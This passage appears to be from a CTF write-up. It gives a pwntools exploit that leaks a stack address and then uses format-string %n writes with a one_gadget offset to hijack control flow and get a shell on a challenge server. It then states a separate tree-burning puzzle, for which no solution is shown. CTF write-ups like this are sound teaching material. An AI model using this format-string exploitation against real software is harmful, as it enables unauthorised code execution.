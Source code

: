 ```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

p = remote('34.42.147.172', 4003)
#p = process('./chall')
l = ELF('./libc.so.6')

p.recvuntil(b'(gift/flag)')
p.send(b'%p%p%p%p%')

eip = int(p.recvuntil(b'r')[1:-1], 16) - (0x7fffffffc6b8 - 0x7fffffffc668)
print(hex(eip))

ref = 0x00007ffff7dd51ca - 0x7ffff7dab000
og = 0xef4ce
print(hex(ref))
payload = b'%11$n%12$n%13$n'
payload += b'%*25$c' + b'%' + str(og - ref).encode() + b'c' + b'%14$n'
payload += b'a' * 6
print(hex(len(payload)))
payload += p64(eip - 0x2c) + p64(eip - 0x30) + p64(eip - 0x28) + p64(eip)
p.sendafter(b"press ENTER to continue....", b'\n')

#gdb.attach(p)

p.recvuntil(b'Input :')
p.send(payload)
p.interactive()
```

---

# misc / Burn it!

## 문제 설명

```
Hey Ghost Hunter. You have come across a few cursed objects that have spirits attached to them.

These cursed objects are made up of knots that are connected by threads. The threads are connected in such a way that no cycles are formed. We need to burn these cursed objects to get rid of the spirits, but there is a catch. If while burning, the cursed object breaks into two, the spirit will be released and you will suffer a very bad death.

You can set fire to multiple knots at chosen points of time (time can't be negative) and the cursed object will start burning from those points at those particular times (two knots can start burning at the same time). Each thread takes 1 second to burn , so the fire can reach from one knot to an adjacent one in 1 second. Tell me which knots to burn at what time and if you burn all cursed objects you get the flag.
```
